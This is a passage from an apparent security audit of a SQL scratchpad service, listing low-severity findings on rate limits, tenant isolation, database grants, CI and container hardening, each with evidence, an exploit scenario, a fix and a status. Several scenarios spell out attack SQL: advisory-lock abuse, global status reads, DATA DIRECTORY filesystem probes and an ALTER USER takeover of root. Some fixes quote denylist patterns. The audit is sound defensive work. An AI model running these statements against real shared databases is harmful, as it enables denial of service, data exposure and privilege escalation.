- **Fix:** Give the introspector its own small pool, or run its 6 queries sequentially on one borrowed connection, and add per-workspace single-flight/caching (for example 1-2 s TTL). Set queueLimit (for example 50) and an acquireTimeout on the admin pool so overload turns into fast 503s. Cap table/column counts per workspace or cache the size scan. Keep health and KILL on a reserved connection. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Fixed in `fd62287` — Set queueLimit=50 and connectTimeout=5000 on adminPool, added 3 s timeout on checkDbHealth, and serialized schema introspection onto a single borrowed connection with per-database single-flight deduplication and concurrency cap of 3.

<!-- Low Severity (37) -->

### [LOW] API-005 — Unauthenticated routes (/api/health, /api/datasets, SPA/404) have no rate limit; /health hits the shared 10-connection admin pool with an unbounded queue

- **Location:** `server/src/app.ts:159-183,197-217`, `server/src/db.ts:4-27`, `server/src/schema-introspector.ts:61-127`, `server/src/static.ts:51-110`
- **Layer:** `api` | **CWE:** CWE-770 | **OWASP:** A04:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/app.ts:160,197-217, server/src/db.ts:20-27, and server/src/static.ts:97,108: @fastify/rate-limit is registered with global: false, leaving /api/health (which runs SELECT 1 on adminPool per request with no caching), /api/datasets, and static SPA reads without rate limits. **Preconditions:** Public deployment; the reverse proxy / CDN may add its own rate limiting (outside the repo). Impact is availability degradation, not data access.
- **Evidence:**
  ```text
  app.ts:160  await app.register(rateLimit, { global: false, ... })  // only routes with config.rateLimit are limited
  app.ts:197-198  app.get('/api/health', async (_req, reply) => { const dbOk = await checkDbHealth(adminPool); ... })  // no config.rateLimit
  app.ts:215  app.get('/api/datasets', async () => datasets)  // no config.rateLimit
  db.ts:10-12  connectionLimit: 10, waitForConnections: true, queueLimit: 0  // queueLimit 0 = unbounded wait queue
  db.ts:22  await pool.query('SELECT 1')  // no timeout
  schema-introspector.ts:61  Promise.all([6 x adminPool.query(...)])  // one /schema request = 6 admin connections
  static.ts:97,108  await readFile(...) per request, no cache and no limit. The same adminPool serves provisioning, teardown (DROP/KILL QUERY), schema and health.
  ```
- **Exploit scenario:** An attacker (one host, no workspace needed) loops GET /api/health. Each request takes an admin-pool connection for a DB round trip; under flood the 10-slot pool and its unbounded queue are saturated, so workspace provisioning, teardown (DROP DATABASE / KILL QUERY, which also use adminPool) and /schema calls of legitimate users stall or time out, and the Node process accumulates queued promises. /schema (120/min per client key) amplifies this: one call fires 6 concurrent information_schema queries, so a few client keys can occupy the whole pool for the duration of slow information_schema scans on a table-heavy workspace. Static/SPA fetches and 404s (readFile per request) are likewise unlimited.
- **Fix:** Add `config: { rateLimit: { max: 30, timeWindow: '1 minute' } }` to /api/health and /api/datasets (exempt the local container HEALTHCHECK by IP or serve it from a cached value refreshed every ~5 s instead of querying per request), cache /api/datasets, set `queueLimit` (e.g. 50) and an acquire/query timeout on the admin pool, give provisioning/teardown a reserved pool, and run the six schema queries over one connection or a small semaphore. Consider a low global rate limit as a backstop (`global: true` with per-route overrides). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `fc0f86a` — Added 2 s single-flight DB health caching and 60/min per-IP rate limits on /api/health (exempting loopback healthchecks) and /api/datasets.

### [LOW] API-006 — Synchronous statement splitting of up to 6 MB blocks the single Node event loop for seconds

- **Location:** `server/src/import-engine.ts:363-370,419-421`, `server/src/exec-engine.ts:26-104,155-177`, `server/src/app.ts:279-283`
- **Layer:** `api` | **CWE:** CWE-407 | **OWASP:** A04:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/import-engine.ts:363-370,419-421 and server/src/exec-engine.ts:26-104,155-177: splitMariaDbStatements runs synchronously over up to 6 MB before IMPORT_MAX_STATEMENTS is enforced, followed by a second synchronous pass over all statements via stripCommentsAndLiterals (which uses character-by-character string concatenation). **Preconditions:** Needs a workspace (public). Single-process Node server.
- **Evidence:**
  ```text
  import-engine.ts:363-364  const statements = splitMariaDbStatements(req.sql); if (statements.length > IMPORT_MAX_STATEMENTS) throw ...  // the 60,000 cap is only checked AFTER the full split
  import-engine.ts:419  statements.some((s) => /\bROLLBACK\b/i.test(stripCommentsAndLiterals(s.sql)))  // second synchronous pass
  Measured on server/dist (pure function, synthetic input, this host):
    6.0 MB of 'SELECT 1;' lines -> 600,000 stmts: 1528 ms (single synchronous call)
    150,000 DELIMITER blocks (5.4 MB): 489 ms
    one 6 MB literal: 200 ms; 6 MB comment: 166 ms
    stripCommentsAndLiterals scan over 60,000 statements: 178 ms
  stripCommentsAndLiterals builds output with `out += ch` per character.
  ```
- **Exploit scenario:** Attacker sends a /import with 6 MB of one-statement-per-line junk (valid wsId not required beyond route 404 ordering, but a real workspace is needed to reach the splitter). The handler synchronously spends ~1.5 s in splitQuery before the statement cap rejects it. The event loop is blocked for every user for that time (health checks have a 5 s timeout in the Dockerfile HEALTHCHECK, other requests stall). Each client key can do this up to 5 times/h under the 30 MB/h byte budget; a modest number of source IPs produces near-continuous stalls.
- **Fix:** Reject before splitting with a cheap pre-check (e.g. count `;` / newlines in a streaming scan capped at IMPORT_MAX_STATEMENTS*N, or bail out of the split iterator once count exceeds the cap) and move splitting to a worker thread or chunked/yielding implementation. Replace the `out += ch` string building with an array/slice approach. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Fixed in `fe57b61` — Added O(N) statement-count pre-check in splitMariaDbStatements before invoking dbgate-query-splitter, converted stripCommentsAndLiterals to slice-based assembly, and pre-filtered ROLLBACK checks in ImportEngine.

### [LOW] AUTHZ-004 — Unprivileged ws_<hex> users can access server-global advisory locks and global server metadata across tenants

- **Location:** `server/src/exec-engine.ts:179-249`, `server/src/workspace-manager.ts:854-863`, `db/conf.d/sql-scratchpad.cnf:1-24`
- **Layer:** `authz` | **CWE:** CWE-284 | **OWASP:** A01:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/exec-engine.ts:179-228 (verified GET_LOCK returns null from checkDenylist) and server/src/workspace-manager.ts:854-863: MariaDB advisory locks share a server-wide namespace with no privilege requirement, and SHOW GLOBAL STATUS/VARIABLES / information_schema.GLOBAL_* are readable with USAGE. **Preconditions:** Attacker creates any public workspace via POST /api/workspaces.
- **Evidence:**
  ```text
  // server/src/exec-engine.ts:179-228
  // DENYLIST_RULES blocks GRANT, REVOKE, CREATE/DROP/ALTER/RENAME USER, SET GLOBAL,
  // SET PASSWORD, INSTALL/UNINSTALL PLUGIN, CREATE FUNCTION ... SONAME, SHUTDOWN,
  // LOAD DATA/XML, INTO OUTFILE/DUMPFILE, and BENCHMARK(),
  // but permits GET_LOCK/IS_USED_LOCK/IS_FREE_LOCK/RELEASE_LOCK and
  // SHOW GLOBAL STATUS / SHOW GLOBAL VARIABLES / information_schema.GLOBAL_STATUS / GLOBAL_VARIABLES.

  // server/src/workspace-manager.ts:855-862
  CREATE USER ${userLit}@'%' IDENTIFIED BY ${pwdLit} ...
  GRANT SELECT, ... ON ${escapeGrantDbIdent(database)}.* TO ${userLit}@'%'
  ```
- **Exploit scenario:** 1. An unauthenticated user opens a workspace via POST /api/workspaces and executes SQL via POST /api/workspaces/:wsId/exec.
2. In MariaDB 11.4, user-level advisory locks (`GET_LOCK`, `IS_FREE_LOCK`, `IS_USED_LOCK`, `RELEASE_LOCK`) require zero global privileges and share a single server-wide namespace across all tenants. The attacker executes `SELECT GET_LOCK('shared_name', 0);` on their pinned session (held up to 10 min idle, extendable up to 12 h max TTL), blocking or denying that lock name for any other tenant's workspace, or queries `SELECT IS_USED_LOCK('shared_name');` to read another tenant's MariaDB connection thread ID (and creating a cross-tenant covert channel).
3. In the same session, the attacker executes `SELECT * FROM information_schema.GLOBAL_VARIABLES;` and `SHOW GLOBAL STATUS;` (also allowed with `USAGE ON *.*`), disclosing container hostname, internal filesystem paths (`datadir`, `plugin_dir`, `secure_file_priv`, `tmpdir`), compile OS/arch, and live cross-tenant activity counters (`Threads_connected`, `Threads_running`, `Queries`, `Com_create_db`).
- **Fix:** Extend `DENYLIST_RULES` in `server/src/exec-engine.ts` to block server-global advisory lock functions (`/\b(?:GET_LOCK|RELEASE_LOCK|RELEASE_ALL_LOCKS|IS_FREE_LOCK|IS_USED_LOCK)\s*\(/i`) and global server metadata queries (`/\bSHOW\s+GLOBAL\s+(?:STATUS|VARIABLES)\b/i`, `/\binformation_schema\s*\.\s*(?:GLOBAL_STATUS|GLOBAL_VARIABLES|PLUGINS|ALL_PLUGINS)\b/i`), while keeping `SHOW SESSION VARIABLES` / `SELECT @@var` available for normal SQL exercises. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `f009b52` — Blocked server-global advisory lock functions (GET_LOCK/RELEASE_LOCK/etc.), SHOW GLOBAL STATUS/VARIABLES, and information_schema global metadata tables in pre-flight DENYLIST_RULES.

### [LOW] AUTHZ-005 — scratchpad_admin holds global CREATE USER (allowing ALTER/RENAME USER escalation to root) and TRIGGER write privilege on tpl_%.*

- **Location:** `db/init/00-admin-user.sh:12-18`, `deploy/app.env.example:1-3`
- **Layer:** `authz` | **CWE:** CWE-269 | **OWASP:** A01:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in db/init/00-admin-user.sh:12-18: scratchpad_admin holds global CREATE USER (which in MariaDB permits ALTER/RENAME USER against root, while 'root'@'%' is not dropped) and TRIGGER privilege on tpl_%.* despite seeds/sample-library.sql defining zero triggers. **Preconditions:** Attacker must first compromise the `app` container or obtain `SQLSCRATCHPAD_ADMIN_PASSWORD` with network reachability to the `internal: true` MariaDB container. Not directly reachable from public HTTP routes or `ws_<hex>` SQL sessions.
- **Evidence:**
  ```text
  // db/init/00-admin-user.sh:12-18
  mariadb --protocol=socket -u root -p"${MARIADB_ROOT_PASSWORD}" -e "
  CREATE USER IF NOT EXISTS 'scratchpad_admin'@'%' IDENTIFIED BY '${ESCAPED_PWD}';
  GRANT CREATE USER, CONNECTION ADMIN ON *.* TO 'scratchpad_admin'@'%';
  GRANT SELECT, INSERT, UPDATE, DELETE, CREATE, DROP, ALTER, INDEX, REFERENCES, CREATE VIEW, SHOW VIEW, TRIGGER, CREATE TEMPORARY TABLES, LOCK TABLES, CREATE ROUTINE, ALTER ROUTINE, EXECUTE ON \`ws\_%\`.* TO 'scratchpad_admin'@'%' WITH GRANT OPTION;
  GRANT SELECT, SHOW VIEW, TRIGGER ON \`tpl\_%\`.* TO 'scratchpad_admin'@'%';
  GRANT SELECT (User, Host) ON mysql.user TO 'scratchpad_admin'@'%';
  FLUSH PRIVILEGES;"
  ```
- **Exploit scenario:** 1. Although deploy/app.env.example omits MARIADB_ROOT_PASSWORD to separate the app container from DB root, an attacker who compromises the app container or obtains SQLSCRATCHPAD_ADMIN_PASSWORD on the internal network connects as `scratchpad_admin`.
2. Because MariaDB grants `ALTER USER` and `RENAME USER` via global `CREATE USER` without a MySQL-style `SYSTEM_USER` boundary, and the official `mariadb:11.4` entrypoint leaves `'root'@'%'` active, the attacker runs `ALTER USER 'root'@'%' IDENTIFIED BY '<attacker_pwd>'` (or `RENAME USER 'root'@'localhost' TO 'root'@'%'`) and reconnects as `root` with full `SUPER`/`FILE`/`SHUTDOWN` privileges.
3. Independently, `scratchpad_admin` holds `TRIGGER` on `` `tpl\_%`.* `` (even though `seeds/sample-library.sql` has zero triggers), allowing it to run `CREATE TRIGGER` on `tpl_sample_library` tables; `WorkspaceManager.cloneTemplate` (`server/src/workspace-manager.ts:968-978`) then automatically clones those triggers into every newly provisioned workspace.
- **Fix:** 1. Drop remote root in `db/init/00-admin-user.sh` (`DROP USER IF EXISTS 'root'@'%';`) or set `MARIADB_ROOT_HOST=localhost` in `deploy/db.env` so root is never exposed over TCP by default, and document that global `CREATE USER` in MariaDB is an architectural trust boundary equivalent to DB user administration. 2. Remove `TRIGGER` from `GRANT SELECT, SHOW VIEW ON \`tpl\_%\`.*` unless a template actually ships triggers (or clone trigger DDL from static seed metadata instead of granting writeable `TRIGGER` privilege on `tpl_*`). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `c3cc629` — Set MARIADB_ROOT_HOST=localhost in deploy/db.env.example, dropped remote root in 00-admin-user.sh, narrowed tpl_%.* grants to SELECT and SHOW VIEW, and documented the MariaDB CREATE USER architectural trust boundary.

### [LOW] AUTHZ-006 — Unprivileged ws_<hex> users are not blocked from CREATE TABLE ... DATA DIRECTORY / INDEX DIRECTORY

- **Location:** `db/conf.d/sql-scratchpad.cnf:12-24`, `server/src/exec-engine.ts:179-228`, `db/Dockerfile:4-6`
- **Layer:** `authz` | **CWE:** CWE-284 | **OWASP:** A01:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed
- **Description:** Confirmed in db/conf.d/sql-scratchpad.cnf (no skip-symbolic-links), server/src/exec-engine.ts:179-228 (verified DATA DIRECTORY returns null from checkDenylist), and db/Dockerfile:4 (/var/lib/mysql-files-disabled owned by mysql:mysql mode 700). **Preconditions:** Attacker creates any public workspace. Live MariaDB 11.4 runtime verification was not performed in Phase 1 (no local MariaDB instance listening on 127.0.0.1:3307); exploitability for InnoDB vs MyISAM depends on container `mysql` OS permissions and MariaDB 11.4 default `have_symlink`.
- **Evidence:**
  ```text
  // db/conf.d/sql-scratchpad.cnf:12-21
  local_infile            = 0
  secure_file_priv        = /var/lib/mysql-files-disabled
  skip_name_resolve       = ON
  max_statement_time      = 10
  max_recursive_iterations = 1000
  max_allowed_packet      = 4M
  sql_mode = STRICT_TRANS_TABLES,ERROR_FOR_DIVISION_BY_ZERO,NO_ENGINE_SUBSTITUTION
  // (No skip-symbolic-links / symbolic-links = 0; DATA/INDEX DIRECTORY not in exec-engine.ts DENYLIST_RULES)

  // db/Dockerfile:4
  RUN mkdir -p /var/lib/mysql-files-disabled ; chown mysql:mysql /var/lib/mysql-files-disabled ; chmod 700 /var/lib/mysql-files-disabled
  ```
- **Exploit scenario:** 1. An unauthenticated user creates a workspace and executes DDL via POST /api/workspaces/:wsId/exec or /import as `ws_<hex>`, which holds `CREATE` on its workspace schema.
2. In MariaDB, `CREATE TABLE ... DATA DIRECTORY = '<path>'` and `INDEX DIRECTORY = '<path>'` do not require the `FILE` privilege — only `CREATE`. Neither `db/conf.d/sql-scratchpad.cnf` (`skip-symbolic-links` omitted) nor `server/src/exec-engine.ts` (`DENYLIST_RULES`) blocks these clauses (and `NO_DIR_IN_CREATE` in `sql_mode` can be cleared per-session via `SET SESSION sql_mode`).
3. The user executes `CREATE TABLE probe (id INT) DATA DIRECTORY = '/tmp';` or `ENGINE=MyISAM DATA DIRECTORY = '/var/lib/mysql-files-disabled'`, probing directory existence/permissions on the MariaDB container filesystem via error responses and writing table data files outside `/var/lib/mysql` into `mysql`-writable container paths (such as `/tmp` or `/var/lib/mysql-files-disabled`, bypassing the container volume boundary).
- **Fix:** 1. Add `skip-symbolic-links` (`symbolic-links = 0`) under `[mariadbd]` in `db/conf.d/sql-scratchpad.cnf` to disable MyISAM external directory symlinks.
2. Add a pre-flight rule in `server/src/exec-engine.ts` (`DENYLIST_RULES`) blocking `/\b(?:DATA|INDEX)\s+DIRECTORY\b/i` so neither InnoDB nor MyISAM tables can specify arbitrary filesystem paths via `/exec` or `/import`.
3. Change ownership/permissions of `/var/lib/mysql-files-disabled` in `db/Dockerfile:4` to `root:root` mode `555` (read-only/unwritable by `mysql`) so `mysql` cannot write there even if `DATA DIRECTORY` is invoked. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `f009b52` (server pre-flight `DATA/INDEX DIRECTORY` denylist) and `b3c4ef4` (MariaDB `skip-symbolic-links` and read-only `/var/lib/mysql-files-disabled`).

### [LOW] CICD-004 — CI and release workflows lack automated security scanning (dependency audit, SAST/CodeQL, container and workflow linting)

- **Location:** `.github/workflows/ci.yml:60-71`, `.github/workflows/release.yml:106-135`, `.github/workflows/ci.yml:57-71`
- **Layer:** `cicd` | **CWE:** CWE-693 | **OWASP:** A06:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `DEPS-003`
- **Description:** Confirmed in .github/workflows/ci.yml:60-71 and .github/workflows/release.yml:106-135: neither workflow runs pnpm audit, workflow/Dockerfile linting, or container CVE scanning. Merged with DEPS-003. **Preconditions:** A vulnerable dependency, misconfigured Dockerfile/workflow, or SAST-detectable bug is introduced in a PR or upstream base image.
- **Evidence:**
  ```text
  In .github/workflows/ci.yml lines 60-71, static checks consist solely of pnpm lint, pnpm format:check, pnpm build, and Vitest/Playwright tests; no pnpm audit, CodeQL, Trivy, Hadolint, or actionlint job is present. In .github/workflows/release.yml lines 106-135, docker/build-push-action builds and immediately pushes both images (push: true) without scanning the built images for OS/library CVEs. GitHub Code Scanning API (repos/hexawulf/sql-scratchpad/code-scanning/alerts) returns 404 (no analysis found).
  ```
- **Exploit scenario:** A pull request introducing a known-vulnerable npm package, a workflow script-injection flaw, or a Dockerfile hardening regression (such as db/Dockerfile missing USER/HEALTHCHECK) passes all CI checks and is merged; likewise, release.yml can build and push container images containing unpatched high/critical OS or npm CVEs directly to Docker Hub without failing a release gate.
- **Fix:** 1. Add a security job in .github/workflows/ci.yml running pnpm audit --prod --audit-level=high (and optionally actionlint and hadolint via SHA-pinned actions).
2. Enable GitHub CodeQL analysis for javascript-typescript and actions (via default setup or a SHA-pinned .github/workflows/codeql.yml).
3. Add a Trivy filesystem/image vulnerability scan gate in CI and before pushing release images. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `b01a373` — Added security job to .github/workflows/ci.yml (gating PRs, pushes, and tag releases) running pnpm audit --prod --audit-level=high and digest-pinned Trivy (vuln/secret), hadolint, and actionlint containers; all four reproduced locally with exit code 0.

### [LOW] CICD-005 — Dependabot automated security updates are disabled in repository settings despite .github/dependabot.yml stating they are enabled

- **Location:** `.github/dependabot.yml:1-18`
- **Layer:** `cicd` | **CWE:** CWE-1104 | **OWASP:** A06:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `DEPS-004`
- **Description:** Independently confirmed via GitHub API: dependabot_security_updates.status == 'disabled' despite .github/dependabot.yml:1 stating security updates are enabled in repo settings. Requires enabling in GitHub repository settings. Merged with DEPS-004. **Preconditions:** A CVE is published for a direct or transitive dependency and not immediately noticed via the Security tab.
- **Evidence:**
  ```text
  .github/dependabot.yml line 1 states:
    # Dependabot version updates (security updates are enabled in repo settings).
  However, GitHub API (repos/hexawulf/sql-scratchpad) returns:
    "security_and_analysis": {
      "dependabot_security_updates": { "status": "disabled" },
      "secret_scanning": { "status": "enabled" },
      "secret_scanning_non_provider_patterns": { "status": "disabled" },
      "secret_scanning_push_protection": { "status": "enabled" },
      "secret_scanning_validity_checks": { "status": "disabled" }
    }
  ```
- **Exploit scenario:** When a high/critical vulnerability is disclosed in a runtime dependency (such as fastify, mysql2, or zod) mid-week, GitHub raises a Dependabot alert but does not automatically open an immediate security-update pull request because dependabot_security_updates is disabled. Relying on the comment in .github/dependabot.yml, maintainers may assume automatic security PRs are active while vulnerable dependencies remain unpatched until Monday's weekly version-update run (or longer if open-pull-requests-limit: 5 is reached).
- **Fix:** Enable Dependabot security updates in GitHub Repository Settings -> Code security -> Dependabot security updates (or via API: PUT /repos/hexawulf/sql-scratchpad/automated-security-fixes). Optionally also enable secret_scanning_validity_checks and secret_scanning_non_provider_patterns. *(Fix risk: `low`; manual action required: Yes.)*
- **Status:** Manual action (requires external GitHub repository settings or post-release registry digest update)

### [LOW] CICD-006 — Published Docker images rely on unsigned BuildKit provenance/SBOM attestations without cryptographic signing

- **Location:** `.github/workflows/release.yml:106-135`
- **Layer:** `cicd` | **CWE:** CWE-345 | **OWASP:** A08:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in .github/workflows/release.yml:8-9,106-135: BuildKit provenance: mode=max and sbom: true produce unsigned attestations with no actions/attest-build-provenance or Cosign signing. Deferred because enabling OIDC signing permissions (id-token: write, attestations: write) and choosing an attestation/Cosign verification policy requires maintainer decision and tag-release testing. **Preconditions:** Compromise of Docker Hub credentials or registry integrity, plus a downstream user attempting to verify image provenance.
- **Evidence:**
  ```text
  In .github/workflows/release.yml:
    - name: Build and push app image (linux/amd64, linux/arm64)
      uses: docker/build-push-action@c3c9e263c25d99ce0380d002d59b67737d91b0dc # v7.4.0
      with:
        ...
        provenance: mode=max
        sbom: true
  (Same configuration for the db image on lines 122-135.) Neither actions/attest-build-provenance (GitHub Artifact Attestations with OIDC signing) nor Sigstore Cosign signing is executed, and release.yml has no id-token: write or attestations: write job permissions.
  ```
- **Exploit scenario:** BuildKit's provenance: mode=max and sbom: true attach unsigned in-toto metadata to the OCI manifest index. If DOCKERHUB_TOKEN or the Docker Hub account is compromised, an attacker can push a trojanized image alongside a fabricated unsigned provenance/SBOM attestation claiming it was built from hexawulf/sql-scratchpad. Self-hosters have no cryptographic signature (Sigstore/GitHub OIDC) to verify image origin before deployment.
- **Fix:** Add a SHA-pinned actions/attest-build-provenance step (with job-level permissions id-token: write, attestations: write, contents: read) for both pushed image digests (steps.<id>.outputs.digest), and/or sign published digests keyless with Sigstore Cosign, documenting verification commands in docs/SELF-HOSTING.md. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred — needs decision (requires maintainer decision on OIDC signing permissions (`id-token: write`, `attestations: write`) and Cosign vs GitHub Artifact Attestation verification policy)

### [LOW] CICD-007 — CI workflow jobs omit timeout-minutes, defaulting to 360 minutes per job

- **Location:** `.github/workflows/ci.yml:22-25`, `.github/workflows/ci.yml:105-108`
- **Layer:** `cicd` | **CWE:** CWE-400 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in .github/workflows/ci.yml:22-25,105-108: both test and e2e jobs omit timeout-minutes (defaulting to 360 minutes), unlike release.yml publish (45 minutes). **Preconditions:** A hung step or an untrusted PR that executes CI workflows (e.g., from a repeat contributor or after maintainer approval).
- **Evidence:**
  ```text
  In .github/workflows/ci.yml:
    jobs:
      test:
        name: Lint, Build, Unit & Integration Tests
        runs-on: ubuntu-latest
    ...
      e2e:
        name: E2E Tests (Playwright Chromium)
        runs-on: ubuntu-latest
  Neither job defines timeout-minutes (unlike release.yml publish, which sets timeout-minutes: 45), so both inherit GitHub Actions' 360-minute (6-hour) default.
  ```
- **Exploit scenario:** A stalling test, hung MariaDB/Playwright process, or malicious PR approved to run workflows on this public repository can hold each CI job open for up to 6 hours (12 runner-hours per run), consuming Actions concurrency slots and delaying legitimate CI and release runs.
- **Fix:** Set explicit timeout-minutes on both jobs in .github/workflows/ci.yml (e.g., timeout-minutes: 20 on test and timeout-minutes: 20 on e2e). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `6539449` — Set explicit timeout-minutes: 20 on test and e2e jobs (and 15 on security job) in .github/workflows/ci.yml.

### [LOW] CONTAINERS-001 — db container omits cap_drop, read_only rootfs, and non-root USER (Trivy DS-0002)

- **Location:** `db/Dockerfile:1-10`, `deploy/docker-compose.yml:4-27`, `deploy/docker-compose.build.yml:4-30`, `compose.dev.yml:4-26`
- **Layer:** `containers` | **CWE:** CWE-250 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in db/Dockerfile:1-10 (no USER instruction; Trivy DS-0002) and deploy/docker-compose.yml, deploy/docker-compose.build.yml, compose.dev.yml (db service omits cap_drop and read_only: true). Hardening db compose entries with cap_drop: [ALL], minimal cap_add for entrypoint gosu/chown, read_only: true, and tmpfs for /tmp and /run/mysqld is safe once verified against a live db boot. **Preconditions:** Attacker first achieves code execution inside the db container (which sits on an internal-only Docker network with no host port in deploy/docker-compose.yml).
- **Evidence:**
  ```text
  db/Dockerfile defines no USER instruction (Trivy DS-0002). In deploy/docker-compose.yml (lines 4-27) and deploy/docker-compose.build.yml (lines 4-30), the db service sets security_opt: ['no-new-privileges:true'] but omits cap_drop and read_only: true (both of which are configured on the app service).
  ```
- **Exploit scenario:** While the upstream mariadb:11.4 docker-entrypoint.sh drops privileges via gosu to the mysql user before launching mariadbd (mitigating Trivy DS-0002 from High to Low for the database daemon itself), the container starts as UID 0 with all 14 default Docker Linux capabilities (including CAP_NET_RAW, CAP_SYS_CHROOT, CAP_MKNOD, and CAP_SETPCAP) and a writable root filesystem. Every 30-second healthcheck.sh execution and default docker exec session also runs as UID 0 with those capabilities. If an attacker exploits a vulnerability in MariaDB, its entrypoint, or healthcheck tooling, the writable root filesystem and un-dropped capabilities weaken post-compromise containment on the container that executes untrusted internet SQL.
- **Fix:** In deploy/docker-compose.yml, deploy/docker-compose.build.yml, and compose.dev.yml, add cap_drop: [ALL] and read_only: true to the db service with tmpfs mounts for /tmp:rw,noexec,nosuid,nodev,size=64m and /run/mysqld:rw,noexec,nosuid,nodev,size=16m. Either add minimal cap_add: [CHOWN, DAC_OVERRIDE, FOWNER, SETGID, SETUID] if keeping root entrypoint volume chowning, or set USER 999:999 (mysql) in db/Dockerfile with cap_drop: [ALL] and zero cap_add for named-volume deployments. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Fixed in `477eb11` — Added cap_drop: [ALL], minimal cap_add [CHOWN, DAC_OVERRIDE, FOWNER, SETGID, SETUID] for MariaDB entrypoint chown/gosu, and hardened /tmp and /run/mysqld tmpfs across all Compose files (security_opt no-new-privileges:true already set; root entrypoint startup and writable rootfs intentionally retained for MariaDB 11.4 init compatibility).

### [LOW] CONTAINERS-002 — app container mounts /tmp tmpfs without explicit noexec,nosuid,nodev,size options

- **Location:** `deploy/docker-compose.yml:42-44`, `deploy/docker-compose.build.yml:48-50`
- **Layer:** `containers` | **CWE:** CWE-770 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in deploy/docker-compose.yml:42-44 and deploy/docker-compose.build.yml:48-50: app service mounts /tmp tmpfs without explicit rw,noexec,nosuid,nodev,size=16m options. **Preconditions:** Ability to trigger writes to /tmp inside the app container (or deployment on a Compose-compatible runtime without implicit noexec on tmpfs).
- **Evidence:**
  ```text
  read_only: true
  tmpfs:
    - /tmp
  ```
- **Exploit scenario:** Without an explicit size= cap, /tmp tmpfs defaults to up to 50% of host RAM (bounded only by mem_limit: 192m), so any uncontrolled writes to /tmp exhaust the app container's cgroup memory budget and trigger an OOM kill of the Fastify server rather than returning ENOSPC cleanly. In addition, omitting noexec,nosuid,nodev relies on Docker-specific runtime defaults; Compose-compatible runtimes that do not add noexec implicitly leave /tmp writable and executable, undermining read_only: true for post-exploitation payload execution.
- **Fix:** Specify explicit hardened mount options and a tight size cap in both deploy/docker-compose.yml (line 44) and deploy/docker-compose.build.yml (line 50): '- /tmp:rw,noexec,nosuid,nodev,size=16m'. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `974a7f9` — Hardened app /tmp tmpfs mount to rw,noexec,nosuid,nodev,size=16m in deploy/docker-compose.yml and deploy/docker-compose.build.yml.

### [LOW] CONTAINERS-003 — Missing pids_limit on db and app services allows container-to-host PID exhaustion

- **Location:** `deploy/docker-compose.yml:4-55`, `deploy/docker-compose.build.yml:4-61`, `compose.dev.yml:4-26`
- **Layer:** `containers` | **CWE:** CWE-400 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in deploy/docker-compose.yml, deploy/docker-compose.build.yml, and compose.dev.yml: neither db nor app defines pids_limit. **Preconditions:** Code execution or runaway process/thread spawning inside either container.
- **Evidence:**
  ```text
  db sets mem_limit: 512m and cpus: 1.5; app sets mem_limit: 192m and cpus: 1.0; neither service defines pids_limit in any Compose file.
  ```
- **Exploit scenario:** If an attacker gains code execution inside either the app or db container, or triggers runaway process/thread creation, the container can spawn threads or processes until the host kernel's global PID table (kernel.pid_max) is exhausted, causing a host-wide denial of service affecting co-located containers and administrative access.
- **Fix:** Add pids_limit: 256 to the db service (sufficient for max_connections = 150 plus InnoDB background threads and healthcheck subshells) and pids_limit: 64 to the app service in deploy/docker-compose.yml, deploy/docker-compose.build.yml, and compose.dev.yml. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `d2e6dd7` — Added pids_limit: 256 on db and pids_limit: 64 on app across deploy/docker-compose.yml, deploy/docker-compose.build.yml, and compose.dev.yml.

### [LOW] CONTAINERS-004 — deploy/docker-compose.yml pins published images by mutable tag without OCI digest

- **Location:** `deploy/docker-compose.yml:5`, `deploy/docker-compose.yml:30`
- **Layer:** `containers` | **CWE:** CWE-829 | **OWASP:** A08:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in deploy/docker-compose.yml:5,30: published images are pinned by mutable tag (:0.3.7) without an immutable @sha256 digest. Pinning digests requires post-release manifest list digests from Docker Hub. **Preconditions:** Compromise of Docker Hub credentials/registry or tag overwrite after release.
- **Evidence:**
  ```text
  image: 0xwulf/sql-scratchpad-db:0.3.7
  ...
  image: 0xwulf/sql-scratchpad:0.3.7
  ```
- **Exploit scenario:** Unlike Dockerfile (line 4) and db/Dockerfile (line 2), which pin base images by immutable multi-arch OCI digest, deploy/docker-compose.yml references mutable Docker Hub tags. If Docker Hub credentials, the registry, or the release workflow are compromised and tag 0.3.7 is overwritten in place, self-hosters following docs/SELF-HOSTING.md ('docker compose -f deploy/docker-compose.yml pull ; docker compose ... up -d') silently pull and run tampered images with access to deploy/app.env and deploy/db.env.
- **Fix:** Pin published multi-arch manifest list digests in deploy/docker-compose.yml after each release push (e.g. 0xwulf/sql-scratchpad:0.3.7@sha256:<digest> and 0xwulf/sql-scratchpad-db:0.3.7@sha256:<digest>). *(Fix risk: `low`; manual action required: Yes.)*
- **Status:** Manual action (requires external GitHub repository settings or post-release registry digest update)

